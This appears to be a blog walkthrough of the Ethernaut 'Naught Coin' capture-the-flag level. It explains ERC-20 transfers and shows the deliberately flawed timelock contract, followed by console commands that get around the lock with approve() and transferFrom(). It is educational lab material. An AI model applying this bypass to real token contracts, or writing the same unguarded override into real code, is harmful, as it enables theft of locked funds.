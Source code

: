 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 15 - Naught Coin"
datePublished: Thu Mar 30 2023 20:44:55 GMT+0000 (Coordinated Universal Time)
cuid: clfvl437f000309i8156u4y1e
slug: ethernaut-walkthrough-for-noobs-15-naught-coin
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1680112135688/ae8cb8b9-1947-4f06-8438-1385a6347b70.jpeg
tags: ethereum, solidity, web3, smart-contracts, 2articles1week

---
```


This level introduces ERC-20 tokens, and ways to transfer them around. In the challenge, we hold all the naught coins, but the catch is that they are locked for 10 years. Our goal is to access them and transfer them to another address.

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

### Background

Let's first understand what are ERC-20 tokens. ERC-20 is a standard protocol to create fungible tokens. That's just a fancy way of saying that each unit of the token is identical to every other unit and is interchangeable. This allows developers to create tokens for their products and services, and since the protocol is well-defined, this brings uniformity to the ecosystem. Most of the tokens you see now, $AAVE, $UNI, $LINK, and $SHIB are all ERC-20 compliant. [Read More](https://docs.openzeppelin.com/contracts/2.x/erc20)

There are two ways to transfer these tokens:

1. `transfer()`: this allows, `msg.sender` to directly send tokens to a recipient.
    
2. `transferFrom()`: this allows an external sender (that could be the owner as well) to transfer an `approved` amount to a recipient.
    
    [**Read more.**](https://eips.ethereum.org/EIPS/eip-20)
    

We will be using the `transferFrom()` function for this, in conjunction with `approve().`

Here is what the code looks like for them:

```solidity
function transferFrom(address _from, address _to, uint256 _value) public returns (bool success)

function approve(address _spender, uint256 _value) public returns (bool success)
```

### Code of Importance

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days; //adds 10 years to the time when the current block was created
  uint256 public INITIAL_SUPPLY; //state variable, will store initial supply.
  address public player; //state variable address: will store our address.

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') { //name and symbol of the token
    player = _player; //assigns our address to player
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals())); //basically tells the initial supply + how many times a single token is divisible, that is 10^18 times.  
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY); //internal function which mints initial supply to our address. 
    emit Transfer(address(0), player, INITIAL_SUPPLY); //emits that transfer from address(0) which indicates that tokens were minted to our address. Check the note after the code. 
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value); //since we inherit from ERC20, we use super to override and thus access transfer function.  
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() { 
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

> Note: *A token contract that creates new tokens SHOULD trigger a Transfer event with the* `_from` the address set to `0x0` when tokens are created.
> 
> Similarly, when burning tokens, `_to` parameter should be set to `0x0`.

Okay, as you can observe in the above code, we cannot transfer funds using the `transfer()` function, since the `lockTokens()` modifier is enforcing the timelock on `transfer()` function. Therefore we must use the `transferFrom()` and `approve()` function to transfer all the NaughtCoins.

Here is the strategy for the exploit.

1. Call `approve()` to approve ourselves to manage all the coins.
    
2. Call `transferFrom()`.
    

### Solution

1. Create a level instance and open up the console.
    
2. Run the following commands in console.
    
    ```javascript
    (await contract.balanceOf(player)).toString() //shows your balance
    await contract.approve(player, '1000000000000000000000000') //approves the balance
    (await contract.allowance(player, player)).toString() //checks if the approve was successful. 
    
    await contract.transferFrom(player, 'enter random address', '1000000000000000000000000') //transfers the coin. 
    
    (await contract.balanceOf(player)).toString() //the balance should now be zero. 
    ```
    

Submit Instance🪙